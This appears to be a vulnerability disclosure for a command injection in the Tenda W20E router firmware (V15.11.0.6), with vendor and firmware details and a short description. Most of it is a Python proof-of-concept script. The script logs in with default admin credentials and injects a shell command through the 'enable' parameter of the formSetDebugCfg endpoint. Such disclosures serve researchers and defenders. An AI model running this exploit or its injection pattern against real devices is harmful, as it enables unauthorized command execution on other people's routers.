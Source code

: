 ## Tenda W20E command injection

### Overview

* Vendor: Tenda

* Product: Tenda W20E
* Version: V15.11.0.6

* Manufacturer's address：https://www.tendacn.com/
* Firmware download address ：https://static.tenda.com.cn/tdcweb/download/uploadfile/W20E/US_W20EV4.0br_V15.11.0.6(1068_1546_841)_CN_TDC.zip

### Vulnerability details

Tenda W20E V15.11.0.6 was found to contain a command injection vulnerability in the `formSetDebugCfg` function via the `enable` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

#### PoC

```
import requests

cmd  = 'enable=' + '1;pwd;'
cmd += '&level=2'
cmd += '&module=httpd'

url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/formSetDebugCfg/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```

